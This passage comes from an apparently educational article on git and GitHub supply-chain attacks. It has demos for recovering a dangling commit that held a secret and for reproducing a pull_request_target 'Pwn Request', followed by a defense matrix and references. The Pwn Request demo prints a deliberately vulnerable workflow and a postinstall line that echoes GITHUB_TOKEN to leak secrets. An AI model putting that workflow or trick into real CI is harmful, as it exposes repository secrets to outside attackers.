### Demo 3: find a dangling commit

```bash
mkdir dangling-demo && cd dangling-demo
git init -b main
echo "AWS_KEY=AKIA1234567890" > .env
git add . && git commit -m "oops with secret"
SECRET_SHA=$(git rev-parse HEAD)

# Rewrite to a commit without the secret
git rm .env
echo "# project" > README.md
git add . && git commit --amend --no-edit

# The secret commit is no longer in log
git log --oneline

# But it still lives in reflog and the object store
git cat-file -p $SECRET_SHA
# author / message visible

# fsck lists dangling objects
git fsck --lost-found
```

Even after `git push --force`, Truffle's Force Push Scanner can dig the commit back out of the remote object store.

### Demo 4: minimal pull_request_target reproduction

```yaml
# vulnerable.yml
on:
  pull_request_target:
    types: [opened, synchronize]
jobs:
  run:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
        with:
          ref: ${{ github.event.pull_request.head.ref }}
      - run: cat package.json | head
      - run: npm install
```

Drop this into a test repo and **open a PR from a fork**. Stick `"scripts": { "postinstall": "echo $GITHUB_TOKEN" }` into the fork's `package.json` and the target repo's secrets leak into the job log (for testing the token will appear masked, so you can confirm the behavior without real damage).

These four bundled into a single `run.sh` would fit the existing hands-on style at `articles/assets/github-hacking-deep-dive/run.sh`.

---

## Defense matrix

Last, here is the attacks-and-defenses summary on a single page. **No single control covers everything**: layer them.

| Attack             | Primary defense                                    | Secondary defense                               |
| ------------------ | -------------------------------------------------- | ----------------------------------------------- |
| Tag rewrite        | commit SHA pinning                                 | Sigstore / SLSA Provenance, Immutable Releases  |
| Author spoofing    | commit signing (`-S`) + key registered on GitHub   | enable vigilant mode                            |
| SHA-1 collision    | GitHub.com collision detection                     | migrate to a SHA-256 repo (long-term)           |
| Submodule RCE      | upgrade to a patched git                           | don't `--recursive` clone repos you don't trust |
| RepoJacking        | pin dependencies to commit SHA                     | dependency proxy / vendor                       |
| CFOR               | rotate assuming the secret has leaked              | secret scanning push protection                 |
| Dangling commits   | run gitleaks / trufflehog before push              | bake rotation into your operational playbook    |
| Pwn Request        | don't checkout PR HEAD under `pull_request_target` | gate execution to trusted users                 |
| Script Injection   | pass via environment variables                     | actionlint / Semgrep in CI                      |
| Cache Poisoning    | review pushes to main                              | include commit SHA in cache key                 |
| Self-hosted runner | don't use them in public repos                     | ephemeral runners                               |

Left column (primary) is **what directly counters that attack vector**; right column (secondary) is **the fallback when the primary fails**. Sigstore / SLSA Provenance / Immutable Releases / gitsign show up on both columns repeatedly, which is the giveaway that they pull multiple layers up at once.

---

## Wrap-up

Git was designed as a distributed VCS where "consensus is taken after the fact". GitHub stacked SaaS conveniences on top of that, and Actions glued a CI execution environment to secrets. Each layer is reasonable in isolation, but **the trust boundaries do not line up**.

- The git protocol **does not verify authors** ([Layer 1.2](#12-commit-author-is-self-declared))
- GitHub **does not actually delete deleted repos** ([Layer 2.2](#22-cross-fork-object-reference-cfor))
- Actions **gives outside PRs access to secrets** ([Layer 3.2](#32-pwn-request-the-pull_request_target-trap))

These three were designed by separate teams in separate contexts, but **attackers chain across layers**. The fact that tj-actions and Trivy got burned twice in a year by the same playbook is not coincidence; it is the seam between trust boundaries being wide.

Defenses also span layers. SHA pinning alone is not enough, and commit signing alone is not enough. Sigstore + SLSA Provenance + Immutable Releases + ephemeral runners. Only with all of those in place do you start to **prevent the third instance of the same playbook**.

Next time you read GitHub's official release notes, ask which trust gap each new feature fills. Immutable Releases addresses Layer 1.1, push protection addresses Layer 2.3, the stricter `permissions:` defaults address Layer 3 in general. Conversely, every new feature opens new gaps (the 10 GB eviction change accelerated Cacheract, for example).

Most of the toolkit for hacking git and GitHub fits in **a few command-line one-liners**. Because attack is easy, defense has to be in layers.

## References

- [GitHub Action tj-actions/changed-files supply chain attack | Wiz Blog](https://www.wiz.io/blog/github-action-tj-actions-changed-files-supply-chain-attack-cve-2025-30066)
- [Trivy Security Scanner GitHub Actions Breached, 75 Tags Hijacked | The Hacker News](https://thehackernews.com/2026/03/trivy-security-scanner-github-actions.html)
- [From Scanner to Stealer: Inside the trivy-action Supply Chain Compromise | CrowdStrike](https://www.crowdstrike.com/en-us/blog/from-scanner-to-stealer-inside-the-trivy-action-supply-chain-compromise/)
- [How to Spoof Any User on Github | Gruntwork](https://www.gruntwork.io/blog/how-to-spoof-any-user-on-github-and-what-to-do-to-prevent-it)
- [On the Prevalence and Usage of Commit Signing on GitHub (2025)](https://arxiv.org/html/2504.19215v1)
- [SHA-1 collision detection on GitHub.com](https://github.blog/news-insights/company-news/sha-1-collision-detection-on-github-com/)
- [CVE-2025-48384: Breaking Git with a carriage return](https://dgl.cx/2025/07/git-clone-submodule-cve-2025-48384)
- [CVE-2024-32002 git submodule symlink RCE](https://kondukto.io/blog/git-scm-affected-by-cve-2024-32002)
- [GitHub RepoJacking via race condition | Checkmarx](https://checkmarx.com/blog/persistent-threat-new-exploit-puts-thousands-of-github-repositories-and-millions-of-users-at-risk/)
- [Anyone can Access Deleted and Private Repository Data on GitHub | Truffle Security](https://trufflesecurity.com/blog/anyone-can-access-deleted-and-private-repo-data-github)
- [Force Push Scanner | Truffle Security](https://trufflesecurity.com/blog/guest-post-how-i-scanned-all-of-github-s-oops-commits-for-leaked-secrets)
- [Keeping your GitHub Actions secure: Pwn Requests | GitHub Security Lab](https://securitylab.github.com/resources/github-actions-preventing-pwn-requests/)
- [Ultralytics AI Pwn Request Supply Chain Attack | Snyk](https://snyk.io/blog/ultralytics-ai-pwn-request-supply-chain-attack/)
- [The Monsters in Your Build Cache: GitHub Actions Cache Poisoning | Adnan Khan](https://adnanthekhan.com/2024/05/06/the-monsters-in-your-build-cache-github-actions-cache-poisoning/)
- [How threat actors are using self-hosted GitHub Actions runners as backdoors | Sysdig](https://www.sysdig.com/blog/how-threat-actors-are-using-self-hosted-github-actions-runners-as-backdoors)
